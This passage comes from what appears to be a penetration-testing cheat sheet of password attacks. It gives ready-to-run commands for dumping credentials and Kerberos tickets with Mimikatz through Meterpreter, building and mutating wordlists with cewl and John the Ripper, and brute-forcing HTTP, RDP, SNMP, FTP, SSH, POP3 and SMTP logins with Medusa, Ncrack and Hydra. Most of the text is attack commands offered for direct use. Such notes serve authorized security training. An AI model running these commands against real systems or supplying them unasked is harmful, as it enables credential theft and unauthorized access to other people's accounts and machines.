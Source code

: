         -   wce -w
 
    -   Mimikatz
 
        -   extract plaintexts passwords, hash, PIN code and kerberos
            tickets from memory. mimikatz can also perform
            pass-the-hash, pass-the-ticket or build Golden tickets  
            [*https://github.com/gentilkiwi/mimikatz*](https://github.com/gentilkiwi/mimikatz)
            From metasploit meterpreter (must have System level access):
            `meterpreter> load mimikatz
            meterpreter> help mimikatz
            meterpreter> msv
            meterpreter> kerberos
            meterpreter> mimikatz_command -f samdump::hashes
            meterpreter> mimikatz_command -f sekurlsa::searchPasswords`
 
    -   Password Profiling
 
        -   cewl can generate a password list from a web page  
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`
 
    -   Password Mutating
 
        -   John the ripper can mutate password lists  
            nano /etc/john/john.conf  
            `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`
 
    -   Medusa
 
        -   Medusa, initiated against an htaccess protected web
            directory  
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`
 
    -   Ncrack
 
        -   ncrack (from the makers of nmap) can brute force RDP  
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`
 
    -   Hydra
 
        -   Hydra brute force against SNMP  
            `hydra -P password-file.txt -v $ip snmp`
 
        -   Hydra FTP known user and password list  
            `hydra -t 1 -l admin -P /root/Desktop/password.lst -vV $ip ftp`
 
        -   Hydra SSH using list of users and passwords  
            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`
 
        -   Hydra SSH using a known password and a username list  
            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`
 
        -   Hydra SSH Against Known username on port 22
            `hydra $ip -s 22 ssh -l <user> -P big\_wordlist.txt`
 
        -   Hydra POP3 Brute Force  
            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`
 
        -   Hydra SMTP Brute Force  
            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`
 